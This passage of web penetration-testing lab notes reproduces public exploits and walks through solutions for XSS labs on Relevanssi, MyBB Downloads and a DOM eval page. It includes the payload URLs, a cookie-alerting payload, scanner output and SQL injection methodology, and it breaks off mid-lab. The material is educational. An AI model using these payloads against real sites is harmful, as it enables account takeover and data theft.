 | Readme: https://kmgv2cd4z1rez4qkb7q6ns846.us-east-6.attackdefensecloudlabs.com/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.6
 | Style URL: https://kmgv2cd4z1rez4qkb7q6ns846.us-east-6.attackdefensecloudlabs.com/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://kmgv2cd4z1rez4qkb7q6ns846.us-east-6.attackdefensecloudlabs.com/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating Most Popular Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:00:47 <===========================================================================================================> (1498 / 1498) 100.00% Time: 00:00:47
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] relevanssi ←
 | Location: https://kmgv2cd4z1rez4qkb7q6ns846.us-east-6.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/
 | Last Updated: 2024-04-04T05:36:00.000Z
 | Readme: https://kmgv2cd4z1rez4qkb7q6ns846.us-east-6.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/readme.txt
 | [!] The version is out of date, the latest version is 4.22.2
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - https://kmgv2cd4z1rez4qkb7q6ns846.us-east-6.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/, status: 200
 |
 | [!] 5 vulnerabilities identified:
 |
 | [!] Title: Relevanssi - A Better Search < 4.14.3 - Unauthenticated Stored Cross-Site Scripting
 |     Fixed in: 4.14.3
 |     References:
 |      - https://wpscan.com/vulnerability/ad08bd11-e4b0-4bb1-9481-3c9651f50466
 |      - https://plugins.trac.wordpress.org/changeset/2616189/relevanssi
 |
 | [!] Title: Relevanssi - Subscriber+ Unauthorised AJAX Calls
 |     Fixed in: 4.14.6
 |     References:
 |      - https://wpscan.com/vulnerability/c0c27674-715e-464d-ab38-0774128e6741
 |      - https://plugins.trac.wordpress.org/changeset/2648642
 |      - https://plugins.trac.wordpress.org/changeset/2648980
 |
 | [!] Title: Relevanssi (Free < 4.22.0, Premium < 2.25.0) - Unauthenticated Private/Draft Post Disclosure
 |     Fixed in: 4.22.0
 |     References:
 |      - https://wpscan.com/vulnerability/0c96a128-4473-41f5-82ce-94bba33ca4a3
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7199
 |      - https://www.relevanssi.com/release-notes/premium-2-25-free-4-22-release-notes/
 |
 | [!] Title: Relevanssi < 4.22.1 - Unauthenticated Query Log Export
 |     Fixed in: 4.22.1
 |     References:
 |      - https://wpscan.com/vulnerability/79c73a0a-087f-4971-a95f-c21d1d4db26e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-1380
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/7b2a3b17-0551-4e02-8e6a-ae8d46da0ef8
 |
 | [!] Title: Relevanssi – A Better Search < 4.22.2 - Missing Authorization to Unauthenticated Count Option Update
 |     Fixed in: 4.22.2
 |     References:
 |      - https://wpscan.com/vulnerability/7b3ce9a6-17e1-42e1-b220-11c69300a9ca
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-3213
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/e625130f-8e21-4baf-9d3c-4cbb806b9e52
 |
 | Version: 4.0.5 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://kmgv2cd4z1rez4qkb7q6ns846.us-east-6.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - https://kmgv2cd4z1rez4qkb7q6ns846.us-east-6.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/readme.txt

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 3
 | Requests Remaining: 22

[+] Finished: Tue Jun 18 06:50:59 2024
[+] Requests Done: 1556
[+] Cached Requests: 8
[+] Data Sent: 496.523 KB
[+] Data Received: 22.259 MB
[+] Memory used: 228.117 MB
[+] Elapsed time: 00:01:05
```

`searchsploit relevanssi`:
```
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Relevanssi - 'category_name' SQL Injection                                                                                                | php/webapps/39109.txt
WordPress Plugin Relevanssi 2.7.2 - Persistent Cross-Site Scripting                                                                                        | php/webapps/16233.txt
WordPress Plugin Relevanssi 4.0.4 - Reflected Cross-Site Scripting ←                                                                                        | php/webapps/44366.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

1. **Search on google "CVE-2018-9034"**

The exploit db link contains the steps to be followed to exploit the vulnerability.
Exploit DB Link: https://www.exploit-db.com/exploits/44366.

```txt
# Exploit Title : Relevanssi Wordpress Search Plugin Reflected Cross Site Scripting (XSS) ←
# Date: 23-03-2018 
# Exploit Author : Stefan Broeder
# Contact : https://twitter.com/stefanbroeder
# Vendor Homepage: https://www.relevanssi.com
# Software Link: https://wordpress.org/plugins/relevanssi
# Version: 4.0.4
# CVE : CVE-2018-9034 ←
# Category : webapps

Description
===========
Relevanssi is a WordPress plugin with more than 100.000 active installations. Version 4.0.4 (and possibly previous versions) are affected by a Reflected XSS vulnerability.

Vulnerable part of code
=======================
File: relevanssi/lib/interface.php:1055 displays unescaped value of $_GET variable 'tab'. ←

..
1049 if( isset( $_REQUEST[ 'tab' ] ) ) { 
1050 $active_tab = $_REQUEST[ 'tab' ]; ←
1051 } // end if 
1052
1053 if ($active_tab === "stopwords") $display_save_button = false; 
1054
1055 echo "<input type='hidden' name='tab' value='$active_tab' />"; ←
..

Impact
======
Arbitrary JavaScript code can be run on browser side if a logged in WordPress administrator is tricked to click on a link or browse a URL under the attacker control.
This can potentially lead to creation of new admin users, or remote code execution on the server.

Proof of Concept
============
In order to exploit this vulnerability, the attacker needs to have the victim visit the following link:

/wp-admin/options-general.php?page=relevanssi%2Frelevanssi.php&tab='><SCRIPT>var+x+%3D+String(%2FXSS%2F)%3Bx+%3D+x.substring(1%2C+x.length-1)%3Balert(x)<%2FSCRIPT><BR+

Please note that quotes and double quotes are properly escaped by WordPress, however javascript escaping (\) is applied while the value is in an HTML attribute. There, escaping a quote by \' has no effect (&quot should be used). This allows us to break out of the HTML attribute and start the script tag. Within the script, quotes are properly escaped but there are ways to obfuscate javascript without requiring these symbols as can be seen in above payload.


Solution
========

Update to version 4.1
```

2. **Inspect the web application**

The user has to authenticate in order to exploit the vulnerability. Credentials are provided in the challenge description.

3. **Navigate to vulnerable URL and inject the payload in the URL**

Payload:
`'><SCRIPT>var+x+%3D+String(%2FXSS%2F)%3Bx+%3D+x.substring(1%2C+x.length-1)%3Balert(x)<%2FSCRIPT><BR+`

URL:
`http://3xdnwc43hlewtgd0c22bjh4tb.mumbaix.attackdefenselabs.com/wp-admin/options-general.php?page=relevanssi%2Frelevanssi.php&tab=%27%3E%3CSCRIPT%3Evar+x+%3D+String%28%2FXSS%2F%29%3Bx+%3D+x.substring%281%2C+x.length-1%29%3Balert%28x%29%3C%2FSCRIPT%3E%3CBR+`

The XSS attack was successful.

### Identifying and Exploiting Stored XSS Vulnerabilities - Theory/Lab

**Stored XSS (Cross-Site Scripting)** occurs when an application stores user input that is later presented to users without proper sanitization or encoding. This type of XSS is more dangerous than reflected XSS because the malicious script persists within the application, potentially affecting multiple users.

**How Stored XSS Works**

1. **Input Submission**: An attacker submits a malicious script via input fields like comments, forum posts, or user profiles.
2. **Storage**: The server stores this malicious input in its database.
3. **Execution**: When other users retrieve this data from the server, the malicious script executes in their browsers, leading to data theft, session hijacking, or other malicious activities.

**Impact of Stored XSS**

- **Mass Exploitation**: Since the payload is stored, it can affect many users who view the infected page.
- **Persistent Threat**: The attack persists until the malicious input is removed from the server.
- **Data Theft and Manipulation**: Attackers can steal sensitive information, manipulate web page content, and impersonate users.

**Steps to Identify and Exploit Stored XSS**

1. **Identify Input Fields**: Look for input fields that store user data, such as comments sections, user profiles, and message boards.
2. **Submit Payloads**: Inject common XSS payloads like `<script>alert(1)</script>` into these fields.
3. **Analyze Storage and Retrieval**: Check if the input is stored and displayed to other users without sanitization.
4. **Craft Exploits**: Create more sophisticated payloads that can bypass filters and leverage the stored data for malicious purposes.

#### Lab Environment

**MyBB Downloads Plugin**

In this exercise, the attacker has access to a non-privileged account. And this, access does lead to an XSS attack. In such cases, this can be used to attack admin or other users. Even if it doesn't, you can try to find this XSS as purely academic exercise.

A version of **MyBB Downloads Plugin** is vulnerable to a stored cross site scripting attack.

The following username and passwords may be used to explore the application and/or find a vulnerability which might require authenticated access:
- Username: "test2"
- Password: "password"

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution

**MyBBscan**

[MyBBscan](https://github.com/0xB9/MyBBscan) is a specialized tool designed for vulnerability scanning and security assessment of MyBB (MyBulletinBoard) forum installations. It is an open-source tool that helps administrators and security professionals identify potential security issues in their MyBB installations, ensuring that their forums are secure against common vulnerabilities and misconfigurations.

**Purpose of mybbscan**

1. **Vulnerability Detection**: Identifies security weaknesses and vulnerabilities in MyBB forums, such as SQL injection, XSS, and other common web application vulnerabilities.
2. **Configuration Assessment**: Checks for insecure or misconfigured settings that could be exploited by attackers.
3. **Compliance and Hardening**: Ensures that MyBB installations follow best security practices and compliance requirements.
4. **Automated Scanning**: Automates the process of scanning MyBB installations, saving time and effort for administrators.

**Key Features and Capabilities**

1. **Comprehensive Vulnerability Scanning**:
    - **Description**: Scans MyBB installations for known vulnerabilities, including outdated software versions, weak passwords, and misconfigurations.
    - **Use Case**: Helps administrators identify and fix security issues before they can be exploited.

2. **Configuration Checks**:
    - **Description**: Reviews the configuration settings of MyBB installations to ensure they adhere to security best practices.
    - **Use Case**: Ensures that settings are optimized for security, reducing the risk of exploitation.

3. **Plugin and Theme Analysis**:
    - **Description**: Analyzes installed plugins and themes for security vulnerabilities.
    - **Use Case**: Detects vulnerabilities in third-party extensions, which are often targeted by attackers.

4. **Reporting and Recommendations**:
    - **Description**: Generates detailed reports on the findings, including recommendations for remediation.
    - **Use Case**: Provides actionable insights and guidance for improving the security of MyBB installations.

**Using MyBBscan**

`cd ~/Desktop`, `git clone https://github.com/0xB9/MyBBscan.git`,  `cd MyBBscan`, `python -m venv venv`, `source ./venv/bin/activate`, `pip3 install requests`, `pip3 install huepy`, `python3 ./scan.py`:
```
MyBBscan - v3.2.0
Made By: 0xB9
Twitter: 0xB9sec

[+] MyBBscan is up to date
------------------------------------------------------------

Examples:
https://MyBBforum.com/                                                                                                                                                                       
https://MyBBforum.com/forum/                                                                                                                                                                 
https://subdomain.MyBBforum.com/                                                                                                                                                             
https://127.0.0.1/                                                                                                                                                                           
------------------------------------------------------------
Enter MyBB forum URL-> https://odrdz1dfyfftvi5f0anowhv8u.us-east-6.attackdefensecloudlabs.com/
[~] Scanning-> https://odrdz1dfyfftvi5f0anowhv8u.us-east-6.attackdefensecloudlabs.com/
------------------------------------------------------------
[!] Possible Vulnerable Plugin!
Vulnerable Plugin: Downloads ←
Version: 2.0.3 ←
Vulnerability Type: Cross-Site Scripting & SQLi ←
XSS: https://packetstormsecurity.com/files/147061/MyBB-Downloads-2.0.3-Cross-Site-Scripting.html
SQLi: https://packetstormsecurity.com/files/149993/MyBB-Downloads-2.0.3-SQL-Injection.html
--------------------------------------------------------------------------------------------------------------------------------------------
[!] Possible Vulnerable Plugin!
Vulnerable Plugin: Recent Threads
Version: 1.0
Vulnerability Type: Cross-Site Scripting
Information: https://packetstormsecurity.com/files/148046/MyBB-Recent-Threads-1.0-Cross-Site-Scripting.html
--------------------------------------------------------------------------------------------------------------------------------------------

[+] Scan complete!
```

1. **Search on google "MyBB Downloads Plugin vulnerability" and look for publicly available exploits**

The exploit db link contains the payload required to exploit the vulnerability.
Exploit DB Link: https://www.exploit-db.com/exploits/44400.

```txt
# Exploit Title: MyBB Downloads Plugin v2.0.3 - Persistent XSS ←
# Date: 3/28/18
# Author: 0xB9
# Contact: luxorforums.com/User-0xB9 or 0xB9[at]protonmail.com
# Software Link: https://community.mybb.com/mods.php?action=view&pid=854
# Version: 2.0.3
# Tested on: Ubuntu 17.10


1. Description:
It is a plugin which adds a page to download files. If enabled, regular members can add new downloads to the page after admin approval.


2. Proof of Concept:

Persistent XSS
- Go to downloads.php page
- Create a New Download
- Add the following to the title <BODY ONLOAD=alert('XSS')> ←
- Now when the admin goes to validate your download he will be alerted ←


3. Solution:
Update to the latest release

Patch: https://github.com/vintagedaddyo/MyBB_Plugin-Downloads/pull/1/commits
```

2. **Inspect the web application**

The user has to authenticate in order to exploit the vulnerability. The login credentials are provided in the challenge description.

3. **Navigate to the downloads page**

Click on **New Download** button.

Inject the payload in the title field and enter any data in **Short description**, **Download description**, **Title page** field.

Payload: `<BODY ONLOAD=alert('XSS')>`

Click on **Publish Download** button.

The XSS payload triggered successfully.

### Identifying and Exploiting DOM-Based XSS Vulnerabilities - Theory/Lab

**DOM-Based XSS (Cross-Site Scripting)** is a type of XSS where the vulnerability exists in the client-side code rather than the server-side code. In DOM-Based XSS, the malicious payload is executed as a result of modifying the DOM environment in the victim’s browser. This occurs when client-side scripts directly process user input and dynamically update the page without proper sanitization or validation.

**How DOM-Based XSS Works**

1. **User Input**: The attacker provides a malicious input that is processed by the client-side script.
2. **DOM Manipulation**: The script directly manipulates the DOM using the malicious input, leading to the execution of the injected script.
3. **Script Execution**: The malicious script executes in the victim’s browser, leading to data theft, session hijacking, or other malicious actions.

**Impact of DOM-Based XSS**

- **Data Theft**: Stealing sensitive information such as cookies or session tokens.
- **Session Hijacking**: Taking control of user sessions by accessing session data.
- **Content Manipulation**: Changing the appearance or behavior of the webpage.
- **Redirects**: Redirecting users to malicious websites.

**Steps to Identify and Exploit DOM-Based XSS**

1. **Analyze Client-Side Code**: Inspect the JavaScript code to identify areas where user input is directly used to manipulate the DOM.
2. **Identify Input Points**: Look for inputs that are processed by the JavaScript code, such as URL parameters, form fields, or any user-controlled data.
3. **Inject Payloads**: Craft and inject payloads into identified input points to test if the input is reflected in the DOM without proper sanitization.
4. **Observe Behavior**: Check if the injected payload executes within the browser, indicating a DOM-Based XSS vulnerability.

#### Lab Environment

In this lab, you will get hands-on experience on how to identify and exploit a rudimentary DOM-Based XSS vulnerability. The objective of this lab is to outline how the DOM (Document Object Model) works in relation to JavaScript and how DOM-Based XSS vulnerabilities can be identified and exploited.

#### Lab Solution

1. **Access the web application**

After launching the lab, you will be provided with access to a pre-configured Kali Linux system and will be greeted with the target web application already opened in a Firefox window.

2. **Analyzing the functionality of the web app**

In order to identify and exploit DOM-Based XSS vulnerabilities, we first need to have an understanding of how the web application works.

Analyzing the web application reveals that it is a simple arithmetic calculator that allows users to parse arithmetic operations as a value of the **statement** parameter within the URL, after which, the result of the arithmetic calculation is displayed/rendered on the webpage as an integer.

URL: `http://pentesteracademylab.appspot.com/lab/webapp/jfp/dom?statement=10+10`

Modifying the arithmetic operation in the URL confirms this, for example, we can perform the operation **10+40** and as shown in the screenshot below, the result of the arithmetic calculation (50) is displayed on the webpage.

Based on how the web app works, what is most notable is how the result of the arithmetic operation is rendered on the webpage. Because the result of the arithmetic operation is dynamic based on values provided, the webpage needs to be able to render the value dynamically. This indicates that the DOM is being used in conjunction with JavaScript to render the value of an element, attribute or text dynamically on the webpage.

We can learn more about how the web app works and interacts with the DOM by analyzing the page source.

As shown below, the JavaScript code responsible for calculating and dynamically displaying the result of the arithmetic operation via the DOM splits the URL and parses the value of the **statement** parameter to the JavaScript **eval()** function for evaluation/calculation.

```html
      <h1 align="center"></h1>
        <h2>Mathemagic</h2>

      <b><div id="result">Fail</div></b>

      <script>

          var statement = document.URL.split("statement=")[1];

          document.getElementById("result").innerHTML = eval(statement); ←

      </script>
```

The JavaScript **eval()** function is typically used by developers to evaluate JavaScript code, however, in this case, it has been improperly implemented to evaluate/perform the arithmetic operation specified by the user.

**NOTE: The **eval()** function should never be used to execute JavaScript code in the form of a string as it can be leveraged by attackers to perform arbitrary code execution.**

Given the improper implementation of the **eval()** function, we can inject our XSS payload as a value of the **statement** parameter and forces the **eval()** function to execute the JavaScript payload.

The easiest way to modify the content of an HTML element is by using the `innerHTML` property.

To change the content of an HTML element, use this syntax:
```javascript
document.getElementById(id).innerHTML = new HTML
```

This example changes the content of a `<p>` element:
```html
<html>
	<body>
	
		<p id="p1">Hello World!</p>
		
		<script>
		document.getElementById("p1").innerHTML = "New text!";
		</script>
	
	</body>
</html>
```

3. **Exploiting DOM-Based XSS Vulnerabilities**

Now that we have identified an input in the web application and have and understanding of how the value of the **statement** parameter is evaluated and rendered, we can test the web app for DOM-Based XSS vulnerabilities by injecting our XSS payload as a value of the **statement** parameter in the URL.

Payload:`alert(document.cookie)`

Injecting the aforementioned payload will result in an alert box displaying the cookie (if any) for your current session on the site (e.g. `s5=78754699878355737645600072088750092000`).

## SQL Injection (SQLi) Vulnerabilities

### Finding SQL Injection Vulnerabilities (with OWASP Zap) - Theory

#### OWASP Zap

OWASP ZAP (Zed Attack Proxy) is an open-source web application security scanner. It is developed under the Open Web Application Security Project (OWASP) and is one of the most popular tools for finding vulnerabilities in web applications. ZAP is designed to be used by both beginners and professional security testers and is highly extensible, allowing users to add new features as needed.

**Purpose of OWASP ZAP**

1. **Security Testing**: ZAP is used to identify security vulnerabilities in web applications. It helps in detecting issues such as SQL injection, cross-site scripting (XSS), broken authentication, and more.
2. **Automated Scanning**: It provides automated scanning capabilities to quickly assess the security posture of web applications.
3. **Manual Testing Assistance**: ZAP also assists in manual security testing by providing a set of tools that security testers can use to probe web applications.
4. **Integration in CI/CD Pipelines**: ZAP can be integrated into continuous integration/continuous deployment (CI/CD) pipelines to automate security testing as part of the software development lifecycle.

**Key Features of OWASP ZAP**

1. **Active and Passive Scanning**:
    - **Active Scanning**: Actively interacts with the application to find vulnerabilities by sending malicious payloads.
    - **Passive Scanning**: Observes the traffic between the client and the server without modifying the requests or responses to identify potential issues.

2. **Spidering and Crawling**:    
    - **Spidering**: Automatically discovers all the pages and resources within a web application by following links.
    - **Crawling**: Uses more advanced techniques to find pages and content that might not be linked directly.

3. **Fuzzing**:
    - Allows for automated input of various data into web application fields to discover vulnerabilities such as buffer overflows, XSS, and SQL injection.

4. **Scripting**:    
    - Supports custom scripts written in various languages (JavaScript, Python, Groovy) to extend ZAP’s capabilities and tailor scans to specific needs.

5. **Report Generation**:    
    - Generates detailed reports of findings, which include identified vulnerabilities, their risk levels, and recommendations for remediation.

6. **API Integration**:    
    - Provides a REST API that allows other tools and applications to interact with ZAP, enabling integration into automated workflows.

7. **User-Friendly Interface**:    
    - Features an intuitive graphical user interface (GUI) that makes it accessible for users with varying levels of expertise.

We can use OWASP Zap also because it has built-in payloads ready to use.

The following steps provide a systematic approach to finding SQL Injection vulnerabilities using OWASP Zap.

1. **Send POST Request to the Fuzzer:**
    - Click on the POST request and send it to the Fuzzer.

2. **Select Payload Position and Type:**    
    - Choose the injectable parameter where you want to insert the payload.
    - Add a payload of type "File Fuzzers" by selecting the `jbrofuzz > SQL Injection` category of payloads.

3. **Start the Fuzzer:**
    - Start the fuzzer to begin testing.

4. **Analyze Results:**    
    - If the result state is "Reflected," it means the payload is reflected back to the web application. This could indicate a potential SQL In-Band Injection, typically in the form of error-based SQLi.
    - Be aware of false positives in this phase. Test each payload manually to confirm.

5. **Using Custom Payloads:**    
    - You can also use custom payloads found online, such as those from the [SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list).

### Exploiting Error-Based SQL Injection Vulnerabilities - Theory/Lab



#### In-Band SQL Injection

In-band SQL injection is the most common type of SQL injection attack. It occurs when an attacker uses the same communication channel to send the attack and receive the results.

In other words, the attacker injects malicious SQL code into the web application and receives the results of the attack through the same channel used to submit the code.

In-band SQL injection attacks are dangerous because they can be used to steal sensitive information, modify or delete data, or take over the entire web application or even the entire server.



#### Error Based SQL Injection

Error-based SQL injection is a technique used by attackers to exploit SQL injection vulnerabilities in web applications.

It relies on intentionally causing database errors and using the error messages returned by the database to extract information or gain unauthorized access to the application's database.

The error message can contain valuable information about the database schema or the contents of the database itself, which the attacker can use to further exploit the vulnerability.

Identifying error-based SQL injection vulnerabilities involves testing the web application to determine if it is susceptible to this type of attack.

**Error-Based SQL Injection Methodology**

1. **Identify a vulnerable parameter**. Find a parameter in the web application that is vulnerable to SQL injection, typically through user input fields, URL parameters, or form inputs.

2. **Inject malicious SQL code**. Craft a payload that includes SQL statements designed to trigger a database error. This can involve appending invalid SQL syntax or manipulating existing queries.

3. **Observe error messages**. Submit the payload to the vulnerable parameter and observe the error message returned by the database. The error message can provide valuable information about the structure and content of the database.

4. **Extract data**. Modify the payload to extract specific information from the database by leveraging the error messages. This can include retrieving usernames, passwords, or other sensitive data stored in the database.

5. **Exploit the vulnerability**. Exploit the information gathered through error-based SQL injection to further exploit the application, gain unauthorized access, or perform other malicious actions.



#### SQLMap

SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in web applications. It is widely used by security professionals and penetration testers to identify and exploit vulnerabilities in web applications' database layers.

**Purpose of SQLMap**

1. **Detecting SQL Injection Vulnerabilities**: SQLMap can identify various types of SQL injection vulnerabilities, including error-based, union-based, blind, and time-based blind SQL injections.
2. **Exploiting SQL Injection**: Beyond detection, SQLMap can exploit vulnerabilities to access the database, extract data, and perform other database-related tasks.
3. **Database Fingerprinting**: It can determine the database management system (DBMS) in use, such as MySQL, PostgreSQL, Oracle, or Microsoft SQL Server.
4. **Data Extraction**: SQLMap can retrieve data from the database, including tables, columns, and entries.
5. **Access and Control**: It can gain database access, perform database operations, and even attempt to gain a shell on the host system.

**Key Features of SQLMap**

1. **Database Support**: SQLMap supports a wide range of databases, including MySQL, PostgreSQL, Oracle, Microsoft SQL Server, SQLite, and others.
2. **Advanced Injection Techniques**: It can perform multiple types of SQL injection attacks, ensuring thorough testing of web applications.
3. **Automated Testing**: SQLMap automates the process of testing for SQL injection vulnerabilities, making it efficient and effective.
4. **Enumeration**: It can enumerate users, password hashes, privileges, databases, tables, and columns.
5. **Out-of-Band Exploitation**: Supports out-of-band techniques using SQLMap’s own DNS server.
6. **Integration with Other Tools**: It can be integrated with other penetration testing tools to enhance the overall security assessment process.

#### Lab Environment

**PHPMyRecipes**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. SQL Injection vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, the attacker is unauthenticated to the web application and needs to find an SQL Injection attack on it.

A version of **PHPMyRecipes** is vulnerable to an SQL injection attack.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution

1. **Inspect the web application**

We can analyze the homepage source code:

```html
<html>

<head>
<title>phpMyRecipes - Home</title>
<LINK HREF="[/styles.css](view-source:https://wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com/styles.css)" REL="stylesheet" TYPE="text/css">
</head>

<body background="[/images/bgrnd76.jpg](view-source:https://wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com/images/bgrnd76.jpg)">

<P>
<TABLE WIDTH=100% BORDER=0>
  <TR>
    <TD ALIGN=LEFT VALIGN=MIDDLE>
      </TD>
    <TD ALIGN=RIGHT VALIGN=MIDDLE>
      </TD>
  </TR>
</TABLE>
</P>

<TABLE BORDER=0 WIDTH=100%>
  <TR>
    <TD ALIGN=CENTER VALIGN=TOP WIDTH=150>
      <P><A HREF="[/index.php](view-source:https://wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com/index.php)">
         </A><BR>
<A HREF="[/login.php](view-source:https://wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com/login.php)">
      </A></P>
      <P><A HREF="[/browse.php](view-source:https://wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com/browse.php)">
      </A><BR>
      <A HREF="[/findrecipe.php](view-source:https://wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com/findrecipe.php)">
      </A></P>

      <P><A HREF="[/categories/categories.php](view-source:https://wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com/categories/categories.php)">
      
      </A><BR>
      <A HREF="[/ingredients/ingredients.php](view-source:https://wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com/ingredients/ingredients.php)">
      
      </A><BR>
      <A HREF="[/units/units.php](view-source:https://wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com/units/units.php)">
      </A><BR>
</P>

      </TD>
    <TD WIDTH=50>&nbsp;</TD>
    <TD WIDTH=600 VALIGN=TOP ALIGN=LEFT>
      <TABLE BORDER=2 CELLPADDING=10 BACKGROUND="[/images/paper002.jpg](view-source:https://wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com/images/paper002.jpg)" WIDTH=90%>
        <TR><TD>

<FORM ACTION="[dosearch.php](view-source:https://wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com/dosearch.php)" METHOD="POST"> ←
<P ALIGN=CENTER>
<TABLE BORDER=0 WIDTH=80%>
  <TR>
    <TD VALIGN=MIDDLE>Search:</TD>
    <TD VALIGN=MIDDLE><INPUT TYPE=TEXT NAME=words_preformat SIZE=40 MAXLENGTH=160></TD>
    <TD VALIGN=MIDDLE><INPUT TYPE=submit VALUE="Search"></TD>
  </TR>
</TABLE></P></FORM>

<P><HR></P>

<P CLASS="content"><B>Last 5 New Recipes:</B><BR>
<CENTER><TABLE WIDTH=80% BORDER=3>
  <TR>
    <TH>Recipe Name (click to view)</TH>
    <TH COLSPAN=2>Action</TH>
  </TR>
</TABLE></CENTER></P>
<P><HR></P>

<P CLASS="content"><B>Last 5 Updated Recipes:</B><BR>
<CENTER><TABLE WIDTH=80% BORDER=3>
  <TR>
    <TH>Recipe Name (click to view)</TH>
    <TH COLSPAN=2>Action</TH>
  </TR>
</TABLE></CENTER></P>
        </TD></TR>
      </TABLE>
    </TD>
  </TR>
</TABLE>

<P>&nbsp;</P>
<P>&nbsp;</P>

<P>
<HR>
<FONT CLASS="footer">phpMyRecipes &copy;2004 Todd Palino<BR>
Don't steal anything, because it's free.</FONT></P>

</body>

</html>
```

We can see this is a PHP-based web application.

Attempting to see the `/robots.txt` file:

```text
Not Found

The requested URL /robots.txt was not found on this server.

---

Apache/2.4.7 (Ubuntu) Server at wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com Port 80 ←
```

We can see that Linux is the underlying server and Apache is the web server technology.

**Testing for SQL Injection**

Attempting to search for "test" in the **Search** field, we capture the request in Burp Suite:

```text
POST /dosearch.php HTTP/2 ←
Host: riw3p3y4z4yqvajq77z5ja49u.us-east-40.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Origin: https://riw3p3y4z4yqvajq77z5ja49u.us-east-40.attackdefensecloudlabs.com
Referer: https://riw3p3y4z4yqvajq77z5ja49u.us-east-40.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

words_preformat=test ←
```

Submitting a single quote (`'`) in the same form field results in an error on the resulting webpage:

```text
We seem to have encountered a database error. Please send email to bugs@bonkoif.com with the following information:

    File - dosearch.php
    Reason - Cannot select recipe lines by instructions/name
    Text - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''' IN BOOLEAN MODE) ORDER BY name' at line 1 ←
```

This indicates that the input is being processed directly into an SQL query, confirming the presence of an SQL Injection vulnerability.

Testing the **Login** page (`/login.php`) form and capturing the request in Burp Suite:

```text
POST /login.php HTTP/2
Host: wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: https://wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com
Referer: https://wdbqvgtb5o9yq46t9fypfoj8g.us-east-6.attackdefensecloudlabs.com/login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=test1&password=test2
```

Sending the captured request to the **Intruder** in Burp Suite, we can test for SQL Injection payloads. Loading a custom payload from [SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list) and starting the attack, we can analyze the results based on **Length** and **Status** values.


```text
